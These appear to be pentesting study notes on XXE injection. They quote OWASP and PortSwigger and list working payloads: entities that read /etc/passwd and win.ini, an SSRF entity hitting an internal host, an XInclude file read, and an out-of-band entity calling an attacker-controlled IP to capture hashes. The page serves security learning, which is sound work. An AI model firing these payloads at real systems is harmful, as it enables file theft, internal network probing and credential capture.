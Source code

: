 # XXE Injection

XML External Entity injection (XXE) - [OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) *"is a type of attack against an application that parses XML input. This attack occurs when **XML input containing a reference to an external entity is processed by a weakly configured XML parser**. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts."*

[Portswigger](https://portswigger.net/web-security/xxe): *"XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared. External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL. "*

- File uploads
- Changing the content type `application/x-www-form-urlencoded`
## XXE to retrieve files

Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response. Requires modification of the submitted XML either by:

- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.


[Portswigger](https://portswigger.net/web-security/xxe)'s example of stock level in shopping application:
`<?xml version="1.0" encoding="UTF-8"?> <stockCheck><productId>381</productId></stockCheck>`

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

[Portswigger](https://portswigger.net/web-security/xxe) notes that with real-world XXE vulnerabilities, there are large number of data values with submitted XML - each individual data node must be systematically tested..
## XXE to SSRF attacks

Exploiting XXE to perform SSRF ([[Server-Side-Request-Forgery]]) attacks, where an external entity is defined based on a URL to a back-end system.

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`

## Blind XXE to exfiltrate data out-of-band

Blind XXE to exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.

## Blind XXE to retrieve data via error messages
 
Blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.

`<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>`
## XInclude Attacks

If you do not control the entire XML document and therefore cannot define the `DOCTYPE` element it may be possible to use `XInclude` instead. `XInclude` is an element that allows an XML document to be built from sub-documents and can be place within any data value in an XML Document.

## XXE XML Entity injection

See [[XML]] for more about XML
```xml
<!--Last Line of Request -->

<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)> <!-- REF: (#ANY) instead of (ANY) -->
<!ENTITY file SYSTEM "file:///etc/passwd">
]> 
<xmlEntityInjection>
	<Author>Hacker1</Author> 
	<Subject>&file;</Subject>
	<Content>LearnDaXMLs3</Content>
</xmlEntityInjection>

<!--Notes -->
<!-- Creates a Header-->
<!-- System call to file variable->
<!-- Prints address file with &file -->
<!-- The two section must connect -->
```
[PayloadsAllTheThings - XXE ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)

To exemplify, simplify the above and enumerate the OS with Arbitrary File Read
```xml
<!-- Either:  -->
<!-- SYSTEM "/etc/passwd"  -->
<!-- SYSTEM "file:///etc/passwd"  -->

<!--Windows  -->

<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
<!--Entity is injected somewhere   -->
<placetoinject>
	&test;
</placetoinject>

<!--Linux  -->

<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<!--Entity is injected somewhere   -->
<placetoinject>
	&test;
</placetoinject>
```

XXE abuse [[Server-Side-Request-Forgery]] - and capture hashes with [[Responder-Cheatsheet]]
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://$yourIP$/test"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
The above is modified from HackTricks - [check Hacktricks for Blind SSRF, DTD abuse and others](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

## Mediation

Configuration of a XML interpreter disallowing the inclusion of external entities enabling attack against applications that interpret XML language in their parameters. 
- Disable support for `XInclude`


## References

[THM Walkthrough Room on XXE CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)
[Portswigger](https://portswigger.net/web-security/xxe)
[BrightSec](https://brightsec.com/blog/xxe-attack/)
[OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
[PayloadsAllTheThings - XXE ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)
[Hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

